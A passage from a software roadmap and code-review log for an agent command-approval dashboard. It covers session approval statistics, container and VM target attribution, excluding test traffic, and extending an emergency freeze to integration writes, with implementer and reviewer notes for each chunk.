  and read-lane rows) as approvals. "Seen before: approved 50" then reads as
  50 operator decisions when the allowlist made them. Return three counts,
  `operator_approved` (`approved`/`consumed` with no `session-plan:` or
  `read-lane` reason), `auto` (everything automatic) and `denied`, and label
  them that way in the UI. Test with mixed rows.
* **C2 "Like this" must not over-match.** A one-step shape such as
  `cat:read` or `bash:unknown` matches thousands of unrelated commands, so
  its counts are noise that looks like evidence. Show the section only when
  the shape has ≥ 2 steps, or when its verb is not `bash`/`sh`/`python*`;
  otherwise show "too generic to compare". Also compute the counts in SQL
  (`COUNT`/`SUM(...)` plus `LIMIT 3` for examples) instead of fetching every
  matching row. Tests: a generic shape gets no counts, and the SQL path
  returns the same numbers.
* **C3 "Why waiting" only for pending rows, worded as a best guess.** It
  re-derives the reason, so it can differ from the real path (host
  override, freeze, order changes). Return it only for `pending` rows, and
  label it "Likely waiting because: …". Test that a non-pending row has no
  reason.
* **C4 Merge `feature-roadmap` into this branch.** It now contains X1, and
  both touch `openContextPanel`. Keep X1's `contextActionsHtml`/two-press
  code and add the F18 container. Re-run the X1 harness tests. The three F4
  skips stay until F4 merges, which is fine.

**Round 2 (2026-11-08): approved and merged.** C1–C4 are done. 38 F18 and X1
tests pass locally, and the X1 sidebar actions survived the merge.

* **Fixed during review (C1 gap):** rows approved under a host or session
  override (`override`, `session-override:%`) still counted as "approved by
  you". They now count as `auto`. Added
  `test_f18_override_approvals_are_automatic`, which fails before the fix
  and passes after.
* **Accepted as is:** C2 marks only one-step *interpreter* shapes as generic
  (as the note was worded). One-step shapes such as `cat:read` keep their
  counts, which is useful enough.
* **For the UI pass:** consider showing "similar" only for ≥ 2-step shapes.

---

## Chunk F6 — Session wrap-up & "how approved" stats · slug `session-wrapup` · dashboard

### Changes

* Session modal header card: goal, duration, commands by **how they were approved**
  (allowlist · human · plan · read-lane · session override · host override ·
  window), writes (from F1) per host, failures (F5, if present), and total
  time the agent waited for a human.
* Statistics: a stacked "how approved" series over 14 days, with **override share**
  as the headline number (data showed 33%; the goal of F3/F4 is to replace overrides).
* `session_summary` MCP output gains the same `by_approval` breakdown.

### Tests

* Bucket mapping from `status`/`reason` covers every value present in the code
  (`override`, `session-override:*`, `session-plan:*`, `read-lane`, `read-lane-shadow`,
  window statuses, `fleet-run`, `integration-*`), with a test that fails when a new
  reason prefix is added without a bucket.

### Implementer notes

**What I did**

* **`core/approval_buckets.py`**: one mapping, `bucket_for(status, reason)`,
  and the order the UI shows: allowlist · human · plan · read lane · session
  override · host override · window · fleet run. Status wins where the status
  alone is the answer (`auto-approved`, `window-approved`, `fleet-run`), so a
  gateway's free-text reason on an allowlist row cannot move it between
  buckets. Everything else on an approved row goes by reason prefix;
  `session-plan:` and `session-override:` are prefixes, `override` and
  `read-lane` are exact. **The read-lane reasons are matched by string** —
  this branch has no F4 code to import. Refusals return `None`; a read-lane
  *shadow* row is pending, and if a human approves it the bucket is `human`
  (the lane did not clear it).
* **`requests.decided_at`** (`db/requests.py`): a nullable column, set by the
  first decision (`update_request_status_if_pending`, the approve/deny path),
  by `update_request_status` (`COALESCE`, so a later consume never rewrites
  it), and by the expiry sweep (`expired`/`abandoned`). Nullable on purpose:
  pre-F6 rows stay unknown instead of being given an invented wait.
* **`get_session_summary`** grows `by_approval` (all eight buckets, zeros
  included), `waited_seconds` (`SUM(decided_at - created_at)`) and `decided`.
  The MCP `session_summary` tool returns the dict as JSON, so it carries the
  same breakdown without a second code path.
* **`GET /api/sessions/{sid}/detail`** adds `summary`: the above plus `goal`,
  `started_at`, `duration_seconds`, `failed` (F5), and `writes` /
  `writes_by_host`, counted from F1's breakdown per row — a session can span
  hosts, and the card names the host. Encoded commands count zero writes
  (their steps are unknown; they never get this far).
* **`GET /api/statistics`** adds `approval_breakdown`: `buckets`, `series`
  (one row per day in the selected window, all buckets), `totals`,
  `approved`, `override_share` (session + host override ÷ every approval,
  per cent). Grouped in SQL by `(day, status, reason)` and bucketed in Python,
  so the row count stays small.
* **UI**: the session modal gets a wrap-up card under the meta line — how long
  it ran, command/failed counts, the wait for a human, the eight approval
  chips (zero counts greyed, so the absence of overrides is visible) and the
  writes per host. Statistics gets a "How approved" widget: a stacked bar per
  day, oldest first, with the override share as the chip headline and a legend
  that keeps empty buckets visible. Bucket colours are tokens in `:root`
  (`--appr-*`), not literals in rules.
* **Tests**: `tests/test_f6_session_wrapup.py` (53) — the mapping table, the
  generated reason-literal scan, the summary (counts, wait, MCP JSON),
  `decided_at` on approve/deny/expire/consume/second-decision, the detail
  summary (goal/duration/writes per host/failures), the statistics block
  (series, totals, share, gateway filter, empty window), and four node-harness
  checks for the card and the widget (escaping, zero buckets, duration
  formatting).

**Decisions and surprises**

* `approval_breakdown` follows the page's day selector (7–365, default 14)
  rather than being pinned to 14 — the chart and the KPI cards then describe
  the same window.
* A status's own meaning beats the reason in three places: `auto-approved`
  (allowlist reason text is free-form from the gateway), `window-approved`
  (no reason at all today) and `fleet-run` (the operator's own reason is free
  text). Everything else is a reason prefix on an approved row.
* `integration-approved`/`integration-denied` appear in the requests table
  historically but are not SSH approvals; they map to `None` and are counted
  as MCP calls, which is what the modal already did.
* The wait is `decided_at - created_at` per row, summed. Rows created before
  the column existed contribute nothing, and the card says "wait not
  recorded" when no row has one, instead of showing a confident zero.

`bash scripts/verify.sh`: `1909 passed, 3 skipped, 7 warnings in 383.81s (0:06:23)`. The three skips are F18's read-lane tests: F4 is not on this branch.

### Round 2: fixes for reviewer round 1

* **R1 — a row created already decided starts decided.** `create_request` now
  stamps `decided_at = created_at` for every non-`pending` status (allowlist,
  host/session override, plan, read lane, window, fleet), and `pending` keeps
  NULL. The expiry sweep's `COALESCE` therefore never rewrites a creation
  decision, so an unclaimed override swept to `abandoned` adds **0** to
  `waited_seconds` and 1 to `decided`. Tests:
  `test_f6_a_decided_row_starts_at_its_creation` (six status/reason pairs),
  `test_f6_a_pending_row_has_no_decision`,
  `test_f6_an_unclaimed_override_waits_zero` (override,
  `session-override:` and `session-plan:` swept to abandoned) and
  `test_f6_an_auto_approved_log_row_waits_zero` (an `/api/log`
  `auto-approved` row through the gateway endpoint).
* **R2 — writes mean what changed.** `session_detail_endpoint` now skips a row
  whose `bucket_for(status, reason)` is `None`, so denied, blocked and expired
  commands are not counted as writes; the card uses the same mapping as the
  approval chips. `test_f6_writes_count_only_decided_rows`: one approved, one
  denied, one blocked and one expired write give `writes == 1` on the approved
  row's host.
* **R3 — the generated reason test can fail now.**
  `core/approval_buckets.KNOWN_REASON_PREFIXES` maps each prefix to its bucket
  or to `None` ("not an approval": `encoded-payload`, `exhausted or
  disabled"), and `bucket_for` goes through `known_reason()` instead of
  hard-coded `startswith` checks. The scan is now a function over a list
  (`_unmapped_prefixes`), the test asserts the scanned code prefixes are all
  keys, and `test_f6_the_reason_check_can_fail` proves a synthetic
  `brand-new-prefix` fails while known ones pass.
  `test_f6_the_table_agrees_with_bucket_for` keeps the table and
  `bucket_for` in step.
* **S1 — the goal is on the card.** The facts line now starts with
  `goal "…"` (escaped), so a named session no longer hides what it was for;
  the node harness carries a goal and asserts it renders.
* **S2 — known mismatch, not changed.** The approval series groups by SQLite
  `DATE(created_at, 'unixepoch')` (UTC) while `filled` uses
  `time.localtime`, exactly like the existing daily chart. On a non-UTC
  dashboard the newest day's approvals can land in no bar; fixing it means
  changing both charts' day boundary, so it is written down here rather than
  half-fixed. **S3** (per-open `cmd_breakdown`) is likewise left as a known
  cost; the modal is opened by a human, not in a loop.

`bash scripts/verify.sh`: `1921 passed, 3 skipped, 7 warnings in 383.60s (0:06:23)`.

### Round 3: merge with F8, F9 and F14

`git merge origin/feature-roadmap` brings the approved F8 (test traffic), F9
(freeze + HA Supervisor reads) and F14 (inventory) onto this branch. Four
files conflicted; each was resolved by keeping both features, whole:

* **`main.session_detail_endpoint`** keeps **one** summary dict: F6's
  `by_approval`, `waited_seconds`, `decided`, `failed`, `duration_seconds`,
  `writes` and `writes_by_host` plus F8's `excluded` and `all_excluded`. The
  write count still uses the bucket mapping (R2), and the exclusion counts
  still cover every SSH row of the session (F8 S3).
* **`index.html`** keeps both `sm-summary` (F6's wrap-up card) and
  `sm-test-hint` (F8's suggestion), in that order, under `sm-meta`.
* **`app.js`** keeps the F6 block (`sessionSummaryHtml`, `renderSessionSummary`,
  the approval chips, the goal line) and the F8 block (`looksLikeTestGoal`,
  `excludedMarkHtml`, `excludeRequests`, `renderSessionTestHint`) whole; the
  modal calls `renderSessionSummary(...)` then `renderSessionTestHint(...)`.
* **`style.css`** keeps the F6, F14 and F8 blocks whole and once each: the F6
  `--appr-*`/`.appr-*`/`.session-summary*` rules, the F14 `.inv-*` rules and
  the F8 `.excluded-*`/`.sm-test-hint` rules. `ui_check.py` stays green and
  `node --check` passes.

**F8's merge note is implemented**, not just recorded: the F6
`approval_breakdown` query now adds `COALESCE(r.excluded, 0) = 0` (the same
filter as the other statistics queries), so an excluded approval is not in the
"how approved" series. F8's generated statistics-filter scan walks
`get_statistics` and now covers that query too, and
`test_f6_approval_breakdown_skips_excluded_rows` checks the behaviour (one
approved row plus one excluded approved row reports `human == 1`). The F6 and
F8 test files both pass on the merged tree.

`bash scripts/verify.sh`: `2010 passed, 3 skipped, 7 warnings in 410.61s (0:06:50)`.

### Reviewer notes

**Round 1 (2026-11-08): changes requested.** Reviewed at `6b35d99`;
`bash scripts/verify.sh`: `1909 passed, 3 skipped, 7 warnings in 331.10s (0:05:31)`.

**What holds.** One mapping (`core/approval_buckets.py`) feeds the session
card, the Statistics series and the MCP `session_summary`. "Status wins over
a free-text reason" is the right call. `decided_at` is nullable, so old rows
report no wait instead of a made-up one, and the first decision wins. The UI
escapes every server string: host names, labels and dates. Bucket keys come
from the server's fixed list. Colours are `:root` tokens. No approval path
or order changed: this chunk only reads. The fixtures use `192.0.2.x`, and
there is no live data.

*Must fix:*

* **R1 Rows that no human saw get counted as waiting for a human.** A row
  created already approved (host override, session override, plan, and later
  the read lane) has `decided_at = NULL`. If the gateway never claims it, the
  expiry sweep marks it `abandoned` and stamps `decided_at = now`
  (`COALESCE`). The agent then appears to have "waited" the whole TTL plus
  the sweep delay. In a scratch test, one host-override row with a 90 s TTL,
  swept 600 s later, added 600 s to `waited_seconds` and 1 to `decided`.
  **Fix:** stamp `decided_at = created_at` in `create_request` for any status
  other than `pending` (the decision *was* the creation), and keep the
  `COALESCE` in the sweep. **Test:** create an `approved` row with
  `reason="override"`, sweep it to `abandoned`, and check that it adds 0 to
  `waited_seconds`. Do the same for `session-override:`, `session-plan:` and
  `/api/log` `auto-approved` rows.
* **R2 Denied, blocked and expired commands are counted as writes.** The
  `writes_by_host` loop in `session_detail_endpoint` counts F1 write steps
  in every SSH row of the session. The card says "writes", meaning what
  changed, but a denied `systemctl restart` and a blocked `rm` both count. In
  a scratch test, a session with one denied and one blocked write showed
  `writes: 2`. **Fix:** count only rows whose bucket is not `None` (they ran,
  or were cleared to run). Use `bucket_for(row['status'], row['reason'])`,
  so the card uses the same mapping. **Test:** a session with one approved,
  one denied, one blocked and one expired write reports `writes == 1` on the
  approved row's host.
* **R3 The "new reason prefix" test can never fail.** The spec asks for "a
  test that fails when a new reason prefix is added without a bucket".
  `test_f6_code_reasons_have_a_bucket` asserts
  `bucket_for('approved', prefix) is not None`, but `bucket_for` returns
  `human` for *any* unknown reason on an approved row, so every new prefix
  passes. **Fix:** add a `KNOWN_REASON_PREFIXES` table to
  `approval_buckets.py` that maps each prefix to its bucket, or to "not an
  approval" (`encoded-payload`). Then assert that every scanned prefix is a
  key in that table, and that `bucket_for` agrees with the table. **Test:**
  the scan itself. Also add a negative case: a synthetic prefix that is not
  in the table makes the check fail. Run the check function on a list, not
  on the tree.

*Should fix:*

* **S1 The goal is not on the card once the session has a name.** The spec
  lists the goal first. The card relies on the modal title, which shows
  `meta.name || goal`, so a named session hides its goal. Show the goal in
  the facts line when the session has a name. **Test:** the node harness
  renders a named session, and the goal appears, escaped.
* **S2 The day buckets mix UTC and local time.** The new series keys
  `approval_by_day` by SQLite `DATE(created_at, 'unixepoch')` (UTC), but
  `filled` uses `time.localtime`. The existing daily chart has the same
  mismatch, so this is not new. On a non-UTC dashboard, the newest day's
  approvals can land in no bar. Either use the same clock on both sides, or
  write the mismatch down as known. **Test:** with `TZ` set to a non-zero
  offset, today's approvals appear in the last series entry.
* **S3 Writes are counted on every detail open.** `cmd_breakdown` runs once
  per SSH row (up to 500) on every modal open. That is fine today. If it is
  ever slow, cache the count per row, or reuse F18's stored breakdown.

F6 lists F4 as a dependency. The read-lane bucket is matched by string and
tested, which is acceptable. When F4 merges, re-run
`test_f6_code_reasons_have_a_bucket` (after R3), so the `read-lane` literal
is picked up.


**Round 2 (2026-11-09, main feature reviewer): approved and merged.** The overnight reviewer approved R1–R3. The merge with F8 keeps one `summary` dict, and `approval_breakdown` skips excluded rows (covered by F8's generated scan). No duplicate functions in `app.js`; CSS braces balance.

---

## Chunk F7 — Inner target attribution · slug `inner-target` · dashboard

### Why

About 100 recorded commands ran inside a container or VM (`pct exec`,
`docker exec`) but are recorded against the host that ran the wrapper. History,
statistics and overrides should know the real target, and an override on a
Proxmox host silently covers every container it can reach.

### Changes

* **Parser:** F1 already reports `inner_targets` for `pct exec <id>` (`pct:<id>`)
  and `docker exec` / `docker compose exec` (`docker:<name>`). Add
  `qm guest exec <vmid> [--] cmd…` as a wrapper in `core/cmd_parse.py` (context
  `qm <vmid>`, inner target `qm:<vmid>`, the inner command classified as usual).
  Add a fixture case and keep F1's tests green.
* **Column:** `requests.inner_target TEXT DEFAULT ''` (migration in the same
  style as `db/requests.py`'s existing `ALTER TABLE` loop), indexed together with `target_ip`.
  Value: the first inner target, `multi` when there are several, `''` for none.
  Filled in `create_request` callers for both `/api/request` and `/api/log`
  (compute `breakdown(cmd)['inner_targets']`; it is cached and fast).
* **Backfill:** a one-off background job at startup fills `inner_target` for
  existing rows where it is `NULL` (rows added before the migration), in batches
  of 500 distinct commands, idempotent, with a `meta` key recording completion.
  It must never block startup or the request path. Without it the history filter
  and the warning below would be empty for weeks.
* **API:**
  * `/api/requests` rows and `/api/requests/{id}/breakdown` callers already
    have the data; add `inner_target` to request rows.
  * `GET /api/gateways/{ip}/inner-targets?days=30` (session auth) →
    `{"pct": ["103", "106"], "qm": [], "docker": ["sonarr"], "count": 3}`.
  * `/api/requests?inner_target=pct:103` filter (exact match), alongside the existing `search`/`session` filters.
* **UI:** an inner-target chip on history rows and pending cards (`pct 103`,
  `docker sonarr`), escaped, clicking it filters history; Statistics gets a
  "busiest inner targets" list (top 10, 14 days).
* **Override warning:** when the host-override dialog opens for a gateway
  whose `inner-targets` count (30 days) for `pct`/`qm` is > 0, show:
  "This host reaches N containers/VMs via pct/qm. An override here also covers
  commands run inside them." Warning only; no behaviour change.
* **Optional (skip if it grows the chunk):** label `pct:<id>` with the guest name
  from the Proxmox integration (read-only, cached 10 min; nothing shown if not configured).

### Tests

* Parser: `qm guest exec 201 -- uptime` → context `qm 201`, inner `qm:201`, step `read`.
* Fill-in on `/api/request` and `/api/log` for pct, docker, qm, `multi` and none.
* Backfill: fills old rows, skips filled ones, sets the completion key, safe to run twice.
* `inner-targets` endpoint counts and the `days` window; `inner_target` filter.
* The override-dialog warning appears only when pct/qm targets exist (node harness or API test).
* Chip text is escaped (node harness, same pattern as F2).

### Compat impact

Additive column and fields; no gateway change.

### Implementer notes

**What I did**

* **Parser** (`core/cmd_parse.py`): `qm guest exec <vmid> [--] cmd…` is now a
  wrapper like `pct exec` — context `qm 201`, inner target `qm:201`, the inner
  command classified as usual. New fixture `wrappers.txt::qm-guest-exec`; F1's
  table still passes.
* **Column** (`db/requests.py`): `inner_target`, added by the same migration
  loop, indexed `(target_ip, inner_target)`. **Deliberately nullable** rather
  than `TEXT DEFAULT ''`: NULL marks a row that predates the column so the
  backfill can find it, while `''` means "this command has no inner target".
  The API and UI normalise NULL to `''`.
* **Fill-in**: `_inner_target_for(cmd)` (a thin wrapper over
  `core.inner_targets.inner_target_for`, which uses F1's cached breakdown) is
  passed by all four `/api/request` creation paths (encoded-payload block,
  session override, host override, pending) and by `/api/log`. Value is the
  first target, `multi` for several, `''` for none.
* **Backfill** (`core/inner_targets.py`): `backfill_inner_targets()` walks
  NULL rows in batches of 500 **distinct commands**, recomputes each command
  once, and sets the `meta` key `inner_target_backfill_done` when done. It is
  idempotent (only NULL rows are touched; the key short-circuits a second
  run) and runs in a daemon thread from `on_startup`, so it never delays
  startup or the request path.
* **API**: `inner_target` is on every request row (`SELECT r.*`), a new
  `GET /api/gateways/{ip}/inner-targets?days=30` returns
  `{pct, qm, docker, count}` (distinct targets, `multi` excluded), and
  `GET /api/requests?inner_target=pct:103` filters exactly, composing with
  `search`/`session`. `/api/statistics` gains `inner_targets` (top 10 for the
  window, `multi` and empty excluded).
* **UI**: an inner-target chip on pending cards (hero) and on history rows;
  clicking it switches to History with a removable `inside pct 103` filter
  chip in the header. Statistics gets a "Busiest inner targets" widget (top
  10, same 14-day window) whose chips filter too. The host-override dialog
  fetches the endpoint and shows "This host reaches N containers/VMs via
  pct/qm. An override here also covers commands run inside them." — warning
  only, no behaviour change, and nothing appears when the host has no pct/qm
  targets.
* **Tests**: `tests/test_f7_inner_target.py` (17 tests) — parser, fill-in on
  `/api/request` and `/api/log` (pct, docker, qm, `multi`, none), the backfill
  (fills, skips filled, sets the key, safe twice, batches, thread), the
  endpoint (counts, `days` window, unknown gateway, session auth), the filter,
  the statistics list, and the two node-harness checks (chip escaped;
  override warning only with pct/qm). The node harnesses now share
  `tests/fixtures/appjs_loader.js`; the F2 harness was moved onto it and its
  12 tests still pass.

**Surprises and decisions**

* The nullable column is the one deviation from the chunk's literal
  `TEXT DEFAULT ''`: with a default, pre-migration rows would read `''` and
  the backfill would have nothing to select. `''` vs NULL keeps "no inner
  target" and "not computed yet" apart, which is what the one-off job needs.
* `multi` rows are recorded (the card shows a `multi` chip) but excluded from
  the gateway endpoint and the statistics list — a command that reached
  several guests cannot be attributed to one.
* The override warning counts **pct + qm only** (as the chunk specifies);
  docker targets do not trigger it.
* Out of scope, found while testing: `/api/statistics?...gateway_ips=…` 500s
  with `no such column: r.target_ip` — a pre-existing unaliased query in the
  daily aggregation (the UI does not pass that parameter today). My new
  inner-targets query uses the `r` alias so it does not add a second one; I
  left the pre-existing bug alone per § 2.1.3.
* Only `/api/request` and `/api/log` fill the column at write time, as the
  chunk asks. Rows created by Fleet Run and window logging keep `''` rather
  than a computed target (the backfill only fills NULL). Say so if you want
  those two paths added.
* The optional guest-name labelling (`pct:<id>` → guest name from the Proxmox
  integration) was skipped — the chunk marks it optional and it would have
  grown the chunk.

**Screenshots** (synthetic gateway `web01` / `10.0.0.1`)

* The inner-target chip on a pending card and on a history row:
  
  
* The host-override warning:
  
* Statistics "Busiest inner targets":
  

`bash scripts/verify.sh` (pre-commit green):

```
1735 passed, 7 warnings in 345.69s (0:05:45)
```

(1715 before this chunk + 17 new F7 tests + 3 parser-table tests from the new
fixture case.)


### Reviewer notes

**Round 1 — 2026-11-08 — approved and merged.**

Clean chunk. All new SQL is parameterised; the nullable column is the right call
(NULL = not yet backfilled, `''` = no inner target), and only `create_request`
inserts into `requests`, so every new row gets a value. The backfill always makes
progress (each update clears that command's NULL rows), commits in small
transactions, and is retried on the next start if it fails part-way.

Measured on a **copy** of the live database (taken with `.backup` into a temp
dir on the dashboard host, deleted afterwards; the live file was not touched):
migration 0.01 s; backfill 7.1 s in the background for 1,365 distinct commands,
attributing 123 rows (87 docker, 26 pct, 1 qm, 9 multi); second run skipped;
no NULL rows left. Override-warning screenshot checked. Gate re-run by the
reviewer: pre-commit OK, `1735 passed`.

Nit for a later chunk (not blocking): cap `inner_target_for()`'s value at 64
characters, since a docker container name is agent-controlled. The out-of-scope
`/api/statistics?gateway_ips=` 500 you found is logged in `docs/KNOWN_ISSUES.md`.

---

## Chunk F8 — Test-traffic hygiene · slug `test-traffic` · dashboard · LOW

### Changes

* `requests.excluded` flag; `POST /api/requests/exclude` `{ids[] | session_id}` (session auth, audit).
  Statistics, learning gaps (`core/learning.py`) and anomaly profiles ignore excluded rows.
* Sessions whose goal contains "smoke test" or "test" are suggested (not
  auto-excluded) in the session modal.
* One-off: the operator can exclude the August test-ping burst from the UI; no
  migration touches live data automatically.

### Implementer notes

**What I did**

* **`requests.excluded`** (`db/requests.py`): `INTEGER DEFAULT 0`, added by the
  usual migration loop. Every existing row reads 0 — **no migration or rule
  excludes anything by itself**, which is the chunk's one-off requirement.
  `mark_requests_excluded(ids, session_id)` is the single writer: idempotent
  (only rows currently at 0 are touched) and it returns how many it changed.
* **`POST /api/requests/exclude`** `{ids[] | session_id}` (session auth,
  audit `requests_excluded`, 400 when neither is given, ids capped at 1000).
  Unknown ids are not an error; they simply count 0. Rows stay in History and
  in `/api/requests` — only the aggregate views skip them.
* **Statistics** (`/api/statistics` and `/api/statistics/export`): every
  request-based aggregate adds `COALESCE(r.excluded, 0) = 0` — per-gateway,
  daily, top commands, inner targets, hourly, weekday×hour, per-gateway
  sparkline, automation trend and top denied (9 + 2 queries).
* **Learning gaps** (`core/learning.py`, both the approval and the denial
  query) and **anomaly profiles** (`core/cmd_profiles.compute_profiles`) skip
  excluded rows, so a smoke test can no longer trigger an allowlist
  suggestion or make a command look "already seen".
* **Inner-target warning** (`/api/gateways/{ip}/inner-targets`) skips them
  too: a test `pct exec` should not widen the host-override warning.
* **UI**: a row marked excluded gets an `excluded` chip and is dimmed;
  unexcluded rows carry an `exclude` link next to `breakdown`. The session
  modal shows a dashed hint when the goal matches `/test|smoke/i` — the
  suggestion, never an automatic action — with an "Exclude from stats"
  button; the same action is available as a plain **Exclude** button in the
  modal header for sessions whose goal does not say it. Both go through the
  same endpoint and confirm first.
* **Tests**: `tests/test_f8_test_traffic.py` (17) — the endpoint (ids,
  session, idempotence, 400, auth, audit, rows still listed, unknown ids),
  statistics (daily, per-gateway, top commands, top denied, export,
  inner-target warning), learning (approvals and denials), profiles, that
  nothing is excluded automatically, and a node harness for the suggestion
  predicate and the excluded marker.

**Decisions and surprises**

* The chunk says statistics, learning and anomaly profiles; I also applied the
  flag to the inner-target warning (it feeds an operator decision) and to the
  CSV export (it is the same statistic leaving the app). Both are additive.
* The policy **preview** (`/api/policies/preview`) still replays excluded
  commands. It answers "what would this draft policy do to this traffic", and
  the operator may deliberately want test traffic in that what-if; leaving it
  alone also keeps this chunk from changing a decision tool. Say so if you
  want it filtered.
* Exclusion is one-way: there is no "include again" in the API or the UI. The
  flag is a single boolean, so a future chunk can add it without a migration.
* The session hint matches any `test`/`smoke` in the goal, as specified. It is
  a hint with a confirm button, so a false positive costs one ignored line.

`bash scripts/verify.sh`: `1873 passed, 3 skipped, 7 warnings in 383.49s (0:06:23)`. The three skips are F18's read-lane tests (F4 is not on this branch).

### Round 2: fixes for reviewer round 1

* **R1 — the override warning sees every row again.** Removed
  `COALESCE(excluded, 0) = 0` from `GET /api/gateways/{ip}/inner-targets`: it
  feeds F7's host-override warning ("an override here also covers these
  containers"), which is a safety prompt, not a statistic. The Statistics
  `inner_targets` table keeps the filter. The old test is replaced by
  `test_f8_inner_target_warning_keeps_excluded_rows`, which shows the excluded
  `pct exec` guest is still in the warning and gone from `/api/statistics`.
* **S1 — "test" as a word.** `TEST_GOAL_RE` is now `/\b(smoke|tests?)\b/i`,
  so "update to the latest kernel" no longer gets the hint while "smoke test"
  and "run the tests" do; the harness asserts all five cases.
* **S2 — a generated guard for the statistics filter.**
  `test_f8_every_statistics_query_filters_excluded` splits
  `get_statistics`/`export_statistics` into `cursor.execute(` blocks, and every
  block that reads `FROM requests` must mention `excluded` (9 blocks checked).
  A future aggregate cannot forget the filter.
* **S3 — an excluded session says so.** The session detail now carries
  `summary.excluded` and `summary.all_excluded`; the modal hint shows "This
  session is excluded from statistics and learning" instead of the button
  when every row is excluded, and the confirm text says rows the session adds
  later are not excluded. `test_f8_detail_reports_an_excluded_session` covers
  the done state and the new row that turns it off.

**Merge note (F6 ↔ F8), recorded not fixed:** F6's `approval_breakdown`
query exists only on `feat/f6-session-wrapup`; whichever merges second must add
`COALESCE(r.excluded, 0) = 0` to it and add it to the S2 scan's coverage.

`bash scripts/verify.sh`: `1875 passed, 3 skipped, 7 warnings in 384.64s (0:06:24)`.

### Reviewer notes

**Round 1 (2026-11-09): changes requested (one small item).** Reviewed at
`d544096`; `bash scripts/verify.sh`: `1873 passed, 3 skipped, 7 warnings in 331.04s (0:05:31)`.

**What holds.** `excluded` defaults to 0, and the migration flags nothing. A
test proves nothing is excluded automatically. The endpoint needs a session
(the CSRF middleware covers the POST), writes an audit event, is idempotent,
and caps `ids` at 1000. Excluded rows stay in History. Statistics, the CSV
export, both learning-gap queries and the anomaly profiles skip them.
Leaving rows out of the profiles makes a command look *newer*, not older,
so the anomaly signal can only get louder. The UI escapes the session goal,
and the row id goes through `Number()`. No approval path or order changed.
The fixtures are synthetic.

*Must fix:*

* **R1 Keep the inner-target warning on every row.** The chunk asks for
  statistics, learning gaps and anomaly profiles. The branch also filters
  `GET /api/gateways/{ip}/inner-targets`, which feeds F7's host-override
  warning ("this override also covers these containers"). That warning is
  a safety prompt, not a statistic. Excluding a session that ran `pct exec`
  into a guest would make the next host override look narrower than it is.
  §0 rule 4 also says not to widen scope. Revert that one filter. Keep the
  filter on the Statistics "inner targets" table, which is a statistic.
  **Test:** replace `test_f8_inner_target_warning_skips_excluded` with one
  showing that an excluded `pct exec` row *still* appears in the
  inner-targets warning, while it is gone from `/api/statistics`
  `inner_targets`.

*Should fix:*

* **S1 Match "test" as a word.** `/test|smoke/i` also matches "latest",
  "contest" and "attestation", so a goal like "update to the latest kernel"
  gets the hint. The spec says "contains", so this is not wrong, but a
  word match (`/\b(smoke|tests?)\b/i`) gives fewer false positives.
  **Test:** the harness predicate is false for "latest" and true for
  "smoke test" and "run the tests".
* **S2 A generated test for the statistics filter.** Nine queries in
  `get_statistics` got the filter by hand, and the tests cover four of the
  surfaces (daily, per gateway, top commands and denied, export). Hourly,
  the heatmap, the sparkline and the automation trend have no test. A
  scan test would make sure a future aggregate cannot forget the filter:
  every `FROM requests` in `get_statistics`/`export_statistics` must
  mention `excluded`.
* **S3 The session hint after excluding.** Reopening an excluded session
  shows "This looks like test traffic" again, with the button (the call
  then reports 0). Have the session detail say whether every row is
  excluded, and show the done state instead. Rows the session adds later
  are not excluded. That is fine, but say so in the confirm text.

**Merge note (F6 ↔ F8).** F6's new `approval_breakdown` query on
`feat/f6-session-wrapup` is not filtered, because the branches are
independent. Whichever of the two merges second must add
`COALESCE(r.excluded, 0) = 0` to that query and to the S2 scan.


**Round 2 (2026-11-09, main feature reviewer): approved and merged.** R1 is right: the inner-target warning counts excluded rows again, and Statistics still drops them. S1–S3 are fine.

---

## Chunk F9 — Freeze covers integrations + HA Supervisor reads · slug `ha-supervisor-read` · dashboard

### Why

Home Assistant OS has a Supervisor (add-ons, backups, updates, host/OS info).
Eshu's HA integration cannot see it today, but HA Core already forwards it over
the WebSocket API with the `supervisor/api` command
(`homeassistant/components/hassio/websocket_api.py`: `@require_admin`, schema
`endpoint: str, method: str, data?: dict, params?: dict, timeout?`). **HA applies
no endpoint allowlist:** any admin token can call every Supervisor endpoint,
including host reboot, backup restore and add-on options. Eshu must therefore
own the allowlist. Endpoints are fixed in Eshu's tool definitions; an agent never supplies one.

Separately, **Emergency Freeze does not stop integration calls today** (only
SSH gateways). That has to change before Eshu gets more power over HA.

### Changes

* **Freeze covers integrations.** In `core/tool_runner.py`, while the freeze
  flag is set, every **mutating** integration call (and every approval of a
  pending integration call in `main.py`'s approve route) is refused with
  `{"error": {"code": "frozen", …}}`, plus an audit event. Reads keep working (an
  operator investigating an incident needs them). The UI's freeze banner text
  says "SSH and integration writes".
* **Supervisor reads** — new WS tools in `core/ha_seed.py`, all `read_only`,
  implemented as handlers (`core/tool_handlers.py`) that call
